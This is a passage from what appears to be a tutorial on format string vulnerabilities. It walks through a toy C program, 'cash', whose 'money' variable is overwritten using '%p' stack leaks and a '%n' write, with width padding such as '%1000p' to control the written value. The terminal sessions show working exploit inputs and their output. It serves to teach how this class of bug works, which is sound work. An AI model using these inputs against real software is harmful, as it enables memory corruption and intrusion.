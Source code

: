 Notice how the seventh value on the stack is equal to the address of `money`. If we replace the seventh "%p" format specifier with a "%n" format specifier, we get the following output.

```sh
$ ./cash
Enter your name: %p.%p.%p.%p.%p.%p.%n.%p.
0x5555555596b1.0x7fffffffde10.0x10.0x7fffffffde10.0x7ffff7fadbe0.(nil)..0x70252e70252e7025., your wallet is at 0x7fffffffe03c.
You currently have $71.
You're swimming in cash!
$ ls
cash  cash.c  format_example2.c  format_example.c  mem_leak.c  README.md
$ echo "format strings r great!"
format strings r great!
$
```

Notice how the value of `money` changed from 10 to 71. This is because when the "%n" format specifier was used, we had printed 71 characters to the screen. We can have some amount of control over the `money` variable by changing the number of characters printed out to the screen.

```sh
$ ./cash
Enter your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%p.%p.%p.%p.%p.%p.%n.%p.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0x5555555596b1.0x7fffffffde10.0x10.0x7fffffffde10.0x7ffff7fadbe0.(nil)..0x4141414141414141., your wallet is at 0x7fffffffe03c.
You currently have $110.
You're swimming in cash!
$
```

(In case you're wondering, the `name` buffer is also stored on the stack. Since this buffer starts with a bunch of A's in this example, `0x4141414141414141` is getting printed out.)

We can have a more fine-tuned way of controlling the number of printed characters by inserting a number between the "%" character and the "p" character. This number, which was originally created for alignment purposes, can allow us to completely control the output length. For example, typing in "%1000p" will ensure that exactly 1000 characters get printed out (most of which are spaces).

```sh
 ./cash
Enter your name: %1000p
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              0x30303031, your wallet is at 0x7fffffffe03c.
You currently have $10.
You are poor.
```
